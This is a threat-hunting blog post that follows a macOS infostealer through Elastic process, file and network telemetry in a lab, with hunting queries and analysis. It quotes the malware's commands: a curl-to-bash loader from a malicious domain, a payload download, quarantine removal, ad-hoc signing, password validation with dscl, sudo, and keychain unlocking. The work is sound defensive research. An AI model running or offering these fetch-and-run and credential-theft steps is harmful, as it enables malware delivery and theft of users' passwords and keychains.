+++
date = '2026-08-31T12:56:09+08:00'
draft = false
title = 'Hunting macOS Amnesia Stealer in Elastic'
description = 'Following Amnesia Stealer through macOS endpoint telemetry in Elastic.'
tags = [
  'macOS',
  'Threat Hunting',
  'Elastic',
  'Infostealer'
]
+++

I came across Amnesia Stealer while looking for a macOS infostealer that I could investigate from a threat hunting perspective.

The activity was originally documented by [Jamf Threat Labs](https://www.jamf.com/blog/amnesia-stealer-macos-infostealer-clickfix/). Their research covers the malware and campaign in much greater depth. I was interested in a slightly different question:

> What does this activity actually look like when I am sitting in Elastic and following macOS endpoint telemetry?

I also wanted to look at something other than Atomic Stealer/AMOS, which already has a large number of write-ups around it.

This was not a reverse-engineering exercise. I ran the activity in a macOS lab and worked primarily from process, file and network telemetry. Most of the investigation came down to following `process.pid`, `process.parent.pid`, process ancestry, command lines and whatever artifact gave me the next useful pivot.

That also means this post is not organized into perfectly separated malware lifecycle or ATT&CK phases. That is not how I investigated it. Some pivots worked, some returned nothing, and a few only made sense after I found additional artifacts later.


## What caught my attention

I began by visiting the GitHub-themed lure page, which looked like a fairly typical macOS ClickFix page: it presented what appeared to be a legitimate download and instructed the user to copy and execute a command in Terminal.



The command itself was simply Base64-encoded.



Decoding it revealed what was actually being executed:

```bash
curl -s "https://debug.allllowef.space/d/command?t=2dHf3c01135&b=se" | nohup bash &
```

The command entered on the host was only a bootstrapper. It contacted remote infrastructure, retrieved additional shell commands and piped the response directly into `bash`.

This also meant I could not assume that every interesting command used later in the infection would be visible inside the original command line. The C2 response could introduce completely new commands after execution had already started.

## Beginning the hunt

One of the first broad process searches I used was simply looking for `curl` activity:

```text
event.category : "process" and process.command_line : *curl*
```

That returned multiple `curl` invocations within seconds of each other.



One of them contacted the command endpoint. Another downloaded a ZIP archive:

```bash
curl -sL "https://debug.allllowef.space/otherassets/macos-hybrid-stealer.zip?..." -o /tmp/._77002.zip
```

The remote object being called `macos-hybrid-stealer.zip` was not exactly subtle.

Locally, however, it was written as:

```text
/tmp/._77002.zip
```

That gave me my first useful combination of clues:

- suspicious remote infrastructure;
- an explicitly named stealer archive;
- staging under `/tmp`;
- and a much less descriptive local filename.

None of those things by itself is enough to call something malicious, but together they were more than enough to keep following the process tree.

## Following the trail

### Checking whether the network activity matched the process telemetry

Before moving too far into PID hunting, I wanted to see whether Elastic had captured the network activity generated by those `curl` processes.

I filtered on network events associated with `curl`:

```text
process.name : "curl" and event.category : "network"  
```

The telemetry showed connections to:

```text
debug.allllowef.space
138.124.70.84:443
```



That matched the domain from the process command line. A reputation check also showed the domain being classified as malicious by multiple vendors, which helped corroborate what I was already seeing in the endpoint data.



The byte counts were also useful. The initial command retrieval showed only a few kilobytes coming back from the remote side, which is consistent with a small shell script or command set. The later `curl` that downloaded the ZIP showed roughly:

```text
source.bytes       ~580
destination.bytes  ~2,892,767
```

The corresponding file event for the ZIP showed a size of approximately:

```text
2,883,736 bytes
```

I would not treat those values as a byte-for-byte proof that the network event represents that exact file, since network counters can include protocol overhead. But the timing, process, destination and very similar size all lined up with the ZIP download.

One limitation here was that I did not have Zeek or equivalent deeper network telemetry in the lab. I could confirm the process, destination, connection and approximate transfer volume, but I could not inspect the decrypted HTTP exchange in the same way I could with richer network visibility.

### The obvious PID pivot went nowhere

At this point I had two interesting `curl` PIDs, including the command retrieval and payload download.

The natural next move was to look for anything they spawned:

```text
process.parent.pid : 14485 or process.parent.pid : 14488
```

That returned nothing useful.



Initially that looked like a dead end, but it was also a good reminder that shell pipelines do not always produce the process relationships you might expect from reading the command left-to-right.

With something like:

```bash
curl ... | nohup bash &
```

the shell can orchestrate both sides of the pipeline. `curl` does not necessarily become the parent of the next interesting process.

So instead of forcing that PID pivot further, I went back to the other clue I already had: the downloaded file.

### Following `._77002.zip`

I searched for file events containing the ZIP name:

```text
file.path : *77002.zip*
```

Elastic showed the file at:

```text
/private/tmp/._77002.zip
```



The difference between `/tmp` in the command line and `/private/tmp` in the file telemetry is expected on macOS. `/tmp` resolves to `/private/tmp`. The file had also already been deleted using `rm`.

More importantly, both the download process and subsequent cleanup activity pointed back to the same parent PID:

```text
14486
```

That was a much better pivot than following `curl` itself. I switched back to process telemetry:

```text
process.parent.pid : 14486 and event.category : "process" 
```

This was where the investigation really opened up.



### Reconstructing the bootstrap from PPID 14486

Filtering the events by the common parent gave a very clear sequence over only a few seconds:

```text
06:49:35  curl
06:49:44  unzip
06:49:45  mv
06:49:45  rm
06:49:45  xattr
06:49:45  chmod
06:49:45  codesign
06:49:45  nohup
06:49:45  .com.apple.dt.77002
06:49:45  sleep
06:49:45  rm
```
#### Download

```bash
curl -sL "https://debug.allllowef.space/otherassets/macos-hybrid-stealer.zip?..." -o /tmp/._77002.zip
```

The payload archive was downloaded into `/tmp`.

#### Extract

```bash
unzip -P dulin -o /tmp/._77002.zip -d /tmp
```

The archive was password protected.

Here:

- `-P dulin` supplies the ZIP password;
- `-o` overwrites files without prompting;
- `-d /tmp` extracts the archive into `/tmp`.

The extracted file was:

```text
/tmp/macos-hybrid-stealer
```

#### Rename

```bash
mv /tmp/macos-hybrid-stealer /tmp/.com.apple.dt.77002
```

The very obvious `macos-hybrid-stealer` filename was immediately changed to:

```text
.com.apple.dt.77002
```

The leading dot makes the filename hidden from normal Unix directory listings, while `com.apple` gives it an Apple-looking name.

#### Remove the archive

```bash
rm -f /tmp/._77002.zip
```

The staging ZIP was removed as soon as it was no longer required.

Because the malware used `rm`, this does not behave like deleting a file in Finder. It would not normally be moved into the user's Trash.

#### Clear extended attributes

```bash
xattr -cr /tmp/.com.apple.dt.77002
```

`xattr` manages extended attributes on macOS.

In this case:

- `-c` clears extended attributes;
- `-r` applies the operation recursively.

At this point in the hunt, the safest conclusion was simply that the malware was clearing metadata attached to the staged payload. One security-relevant attribute that could be affected is `com.apple.quarantine`.

Later telemetry made the intent even clearer when I found an explicit quarantine removal command:

```bash
xattr -d com.apple.quarantine /tmp/.com.apple.dt.77002
```

So the payload was not just generically manipulating extended attributes. It specifically attempted to remove macOS quarantine metadata.

#### Add execution permission

```bash
chmod +x /tmp/.com.apple.dt.77002
```

This adds the executable bit to the extracted payload.

#### Ad-hoc sign the payload

```bash
codesign --force --deep --sign - /tmp/.com.apple.dt.77002
```

This stood out. `codesign` is a legitimate Apple utility. Here, `--sign -` applies an ad-hoc signature. An ad-hoc signature does not establish a trusted developer identity, but it does give the Mach-O a structurally valid code signature.

#### Execute it

```bash
nohup /tmp/.com.apple.dt.77002
```

The newly prepared payload was then launched through `nohup`, allowing it to continue independently of the initiating terminal session.

Elastic showed the executable as:

```text
/private/tmp/.com.apple.dt.77002
```

#### Clean up again

```bash
sleep 2
rm -f /tmp/.com.apple.dt.77002
```

Two seconds later, the staged executable was deleted from disk. That does not necessarily stop the already running process. On Unix-like systems, a process can continue executing after its backing file has been unlinked.

Taken individually, almost every utility in this chain is legitimate:

| Utility | What it was doing here |
|---|---|
| `curl` | Downloading the payload |
| `unzip` | Extracting the password-protected ZIP |
| `mv` | Renaming the payload |
| `rm` | Removing staging artifacts |
| `xattr` | Clearing extended attributes |
| `chmod` | Adding execution permission |
| `codesign` | Applying an ad-hoc signature |
| `nohup` | Launching the payload independently |

### Following the stealer itself

The staged payload was now running as:

```text
/tmp/.com.apple.dt.77002
PID 14499
```

Rather than continuing to follow the earlier bootstrap shell, I shifted the hunt toward processes spawned by the stealer itself.

One useful query was:

```text
 process.parent.command_line : *com.apple.dt*
```

This surfaced a much larger set of post-execution activity.

### Checking for another running instance

One of the first commands was:

```bash
sh -c "pgrep -f '/tmp/.com.apple.dt.77002' | grep -v 14499 | head -1"
```



That shell pipeline breaks down into:

```text
pgrep -f '/tmp/.com.apple.dt.77002'
        ↓
find matching running processes

grep -v 14499
        ↓
exclude the current PID

head -1
        ↓
return only the first remaining match
```

I cannot say with certainty whether this was duplicate-instance prevention or internal process coordination, but it clearly shows the malware looking for another process matching its own path while excluding itself.

### Identifying the user and validating the password

Following the same parent process revealed a short sequence of commands related to the current user and their credentials.



The first was straightforward:

```bash
whoami
```
This identifies the currently logged-in user. A few seconds later, the same parent process executed:

```bash
dscl /Local/Default -authonly jason <captured_password>
```

`dscl` is a normal macOS Directory Service utility. With `-authonly`, it validates whether the supplied username and password are correct.

This matched what I saw during execution in the lab.

When I supplied an incorrect password, the workflow did not continue normally and I was prompted again. Once the correct VM password was supplied, execution continued.

The malware then ran:

```bash
sudo -S -v
```

`-S` tells `sudo` to read the password from standard input, while `-v` validates or refreshes the user's cached sudo credentials without running another command.

So the sequence was not simply:

```text
capture something that looks like a password
```

It was closer to:

```text
identify user
    ↓
capture password
    ↓
validate it with dscl
    ↓
validate sudo access
```

Later artifact analysis confirmed that the entered password was also stored locally in plaintext under:

```text
~/.pwd
```
### Why my `osascript` hunt returned nothing

At this point I expected to find `osascript`.

Fake password prompts are common enough in macOS malware that looking for AppleScript activity seemed like a reasonable hypothesis. In past AMOS stealer infections, they would have a fake dialog box to prompt the user to enter the credentials. I tried hunting with : 

```text
process.command_line : *osascript* and process.command_line : *display*
```

No results seen. That initially looked like another telemetry gap, but Jamf's analysis explained why. Amnesia does not need to spawn `osascript` for this prompt. Jamf documented a native AppKit `NSAlert` being used instead.

That means the fake password dialog can be created inside the malware process itself, leaving no separate `osascript` child process for me to find in Elastic.

That was one of the more useful negative findings from the hunt:

> No `osascript` process does not mean no deceptive password prompt occurred.

### Following the Keychain access

If there were dscl and keychain events, there bound to be file events related to the Keychain database too. File telemetry from the same execution chain showed repeated access to:

```text
/Users/jason/Library/Keychains/login.keychain-db
```

A broad file search was enough to surface it:

```text
process.parent.pid : 14486 and event.category : "file" and event.type : "access"
```

The process accessing it was:

```text
/private/tmp/.com.apple.dt.77002
```



At first, all I could safely say was that the malware was opening the user's login Keychain database. Later process telemetry gave much stronger evidence :

```text
process.command_line : *keychain* and process.executable : *security*
```



```bash
security unlock-keychain -p <captured_password> /Users/jason/Library/Keychains/login.keychain-db
```

The `security` command is Apple's Keychain command-line utility. Here the stealer explicitly attempted to unlock the user's login Keychain using the password it had already captured and validated :

```text
password prompt
    ↓
password captured
    ↓
dscl validation
    ↓
sudo validation
    ↓
security unlock-keychain
    ↓
Keychain collection
```

### Pivoting from the process tree into file activity

After spending most of the investigation following process relationships, I switched back to file telemetry. With that much process activity, I expected corresponding file telemetry as well. The same process tree that gave me the bootstrap activity also generated a large number of file events, so I started with the parent PID I had already been following:

```text
process.parent.pid : 14486 and event.category : "file" and event.type : "change"
```



This returned far more events than were practical to inspect one by one. Some of them were the repeated `login.keychain-db` accesses discussed earlier, but I wanted to understand what else the execution chain had touched.

Instead of scrolling through every event, I opened Elastic's **Field statistics** view for `file.path`. That gave me a much better overview of the filesystem activity. The results immediately exposed several unusual paths under the user's home directory, a collection of browser-related artifacts under `.local/share/.stream/`, and a randomly named staging directory under `/private/tmp`.

### A temporary collection directory under `/private/tmp`

Further down the `file.path` statistics was this randomly named directory:

```text
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/
```

The filenames inside it were much more descriptive than the directory itself:

```text
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/Passwords/login.keychain-db
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/Passwords/safari_passwords.json
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/collection_report.txt
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/installed_apps.txt
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/installed_software.txt
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/pwd
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/safari_diagnostic.json
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/system_info.json
```

At this point it looked much less like a collection of unrelated file events and much more like a dedicated staging directory. A few of the artifacts stood out immediately:

| Artifact | What it suggested |
|---|---|
| `Passwords/login.keychain-db` | A staged copy of the user's login Keychain database |
| `Passwords/safari_passwords.json` | Safari credential collection output |
| `pwd` | Captured password copied into the staging area |
| `installed_apps.txt` | Installed application enumeration |
| `installed_software.txt` | Additional software discovery |
| `system_info.json` | Host and hardware information |
| `safari_diagnostic.json` | Safari collection diagnostics |
| `collection_report.txt` | State or summary related to the collection process |

The strongest correlation was the Keychain database.

Earlier in the hunt I had seen the payload repeatedly accessing:

```text
/Users/jason/Library/Keychains/login.keychain-db
```

Now the same database appeared inside:

```text
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/Passwords/login.keychain-db
```

That connected the earlier Keychain activity directly to the collection workflow:

```text
original login.keychain-db
        ↓
accessed by .com.apple.dt.77002
        ↓
copied into the temporary collection directory
```

### FileGrabber activity

If you have worked with AMOS malware, hunting for command lines containing the string `FileGrabber` is one of the quick wins to identifying Mac malware. The `FileGrabber` subdirectory contained a number of collected JSON files:

```text
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/FileGrabber/hast-to-react.json
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/FileGrabber/index.json
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/FileGrabber/os.json
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/FileGrabber/package-support.json
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/FileGrabber/package.json
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/FileGrabber/release-please-config.json
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/FileGrabber/renovate.json
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/FileGrabber/spinners.json
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/FileGrabber/tsconfig.json
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/FileGrabber/tsfmt.json
```

The important point here is that these files were not generic malware working files sitting directly under `/private/tmp`. They had been copied into a dedicated `FileGrabber` directory inside the malware's staging area. That made the collection layout much easier to understand:

```text
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/
│
├── FileGrabber/
│   ├── package.json
│   ├── index.json
│   ├── os.json
│   ├── renovate.json
│   ├── tsconfig.json
│   └── ...
│
├── Passwords/
│   ├── login.keychain-db
│   └── safari_passwords.json
│
├── installed_apps.txt
├── installed_software.txt
├── system_info.json
├── safari_diagnostic.json
├── collection_report.txt
└── pwd
```

### Password and credential staging

Immediately after the FileGrabber paths in the same `file.path` statistics were:

```text
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/Passwords/login.keychain-db
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/Passwords/safari_passwords.json
```

These correlated directly with activity I had already followed earlier in the investigation. The payload had repeatedly accessed:

```text
/Users/jason/Library/Keychains/login.keychain-db
```

and later attempted to unlock it using:

```bash
security unlock-keychain -p <captured_password> /Users/jason/Library/Keychains/login.keychain-db
```

Now a copy appeared inside the malware's staging directory:

```text
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/Passwords/login.keychain-db
```

That gave me a much clearer relationship:

```text
original login.keychain-db
        ↓
accessed by .com.apple.dt.77002
        ↓
unlocked using captured password
        ↓
copied into Passwords/
        ↓
included in the staging directory
```

The presence of:

```text
Passwords/safari_passwords.json
```

also showed that Safari credential collection was part of the same staging workflow, although the existence of the file alone does not prove that valid Safari passwords were successfully recovered.

### Other collected artifacts

The same staging directory also contained:

```text
collection_report.txt
installed_apps.txt
installed_software.txt
pwd
safari_diagnostic.json
system_info.json
```

These matched several behaviors I had already observed through process telemetry.

For example:

| Artifact | Earlier telemetry it correlated with |
|---|---|
| `installed_apps.txt` | `ls -1 /Applications` |
| `installed_software.txt` | software enumeration |
| `system_info.json` | `system_profiler`, `sw_vers`, `ioreg` |
| `pwd` | captured and validated user password |
| `safari_diagnostic.json` | Safari collection activity |
| `Passwords/login.keychain-db` | Keychain access and unlock |
| `FileGrabber/*` | filesystem collection activity |

The process tree showed me **how** information was being collected. The `file.path` statistics showed me **where the results were being staged**.

The overall flow now looked like:

```text
system / credential / file collection
                ↓
/private/tmp/dUvV2FVcZkOrcH8Os4nOdw2fL/
                ↓
       ┌────────┴────────┐
       │                 │
 FileGrabber/        Passwords/
       │                 │
 user files       Keychain / Safari
       │                 │
       └────────┬────────┘
                ↓
      additional host data
                ↓
        staged collection
                ↓
          ZIP creation
```

Later in the process tree, this same randomly named directory was passed to `ditto`, which packaged the collected data into a ZIP archive.

### Hidden state left in the user's home directory

The `file.path` statistics also exposed several hidden files directly under the user's home directory:

```text
/Users/jason/.botid
/Users/jason/.chost
/Users/jason/.pwd
```

as well as another interesting directory:

```text
/Users/jason/.local/share/.stream/
```

At this point the telemetry had given me another useful pivot. Instead of only looking at what the malware had touched historically, some of these files were still present on the VM and could be inspected directly.

I checked the user's home directory with:

```bash
ls -la ~
```

The files identified in Elastic were still there:

```text
~/.botid
~/.chost
~/.pwd
```

I then inspected each one.

